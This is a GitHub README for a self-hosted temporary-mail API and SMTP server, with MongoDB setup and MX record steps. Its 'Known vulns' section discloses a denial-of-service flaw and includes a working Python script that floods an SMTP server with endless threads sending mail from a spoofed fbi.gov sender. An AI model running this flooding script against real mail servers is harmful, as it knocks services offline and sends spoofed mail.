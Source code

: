 ---------------------------------------
  
<br/>
<div align="center">
  <a href="https://github.com/femboy-party/tempmail-api">
    <img src="https://i.imgur.com/fJYAFil.png" alt="Logo" width="120" height="120">
  </a>
  
  <h2 align="center">Tempmail API/Server</h3>

  <p align="center">
    Tempmail API aswell as a SMTP server.
    <br />
    <br />
    <a href="http://tempmail.pink">Website</a>
    ·
    <a href="https://github.com/femboy-party/tempmail-api/issues">Report Bug</a>
    ·
    <a href="https://github.com/femboy-party/tempmail-api/issues">Request Feature</a>
  </p>
</div>
  
---------------------------------------

### Setup
* Firstly create a mongodb account, and proceed to create a new project.
* Now create a new database.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454657812049990/unknown.png">
* Now goto the database overview and goto the collections tab.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901454911882035201/unknown.png">
* Now create a new database / collection.
* <img src="https://cdn.discordapp.com/attachments/901454647917694986/901455049618751498/unknown.png">
* Now edit the following files and put your connection url inside.
```
API/database.py
SMTP/database.py
```
* All you have to do now is run main.py on your vps.

---------------------------------------

### Add domains
1. Open your domain management
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515103249473546/unknown.png">
2. Go to advanced dns
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515754641653760/unknown.png">
3. Scroll down until you see mail settings
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898515920639651850/unknown.png">
4. Select MXE Record
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516078861369354/unknown.png">
5. Put <your vps ip> as the value
<img src="https://cdn.discordapp.com/attachments/897456816949190689/898516266401296384/unknown.png">
6. Save and done!

---------------------------------------

### Known vulns
* SMTP Connections, Spamming smtp connections and attempting to send an email will result in the api not responding until you stop trying to connect/send.
  ```py
  import smtplib
  import threading
  
  def send():
      message = """From: dropout <dropout@fbi.gov>
      To: admin <user@domain.com>
      Subject: SMTP Vuln

      Naughty, Naughty vuln
      """
      try:
          smtp = smtplib.SMTP("stmp.server.com")
          smtp.sendmail("dropout@fbi.gov", "user@domain.com", message)         
      except Exception:
          pass
  
  if __name__ == "__main__":
      while True:
          threading.Thread(target=send).start()
  ```

---------------------------------------

### Contact
bo@cia.contact
bo#0005
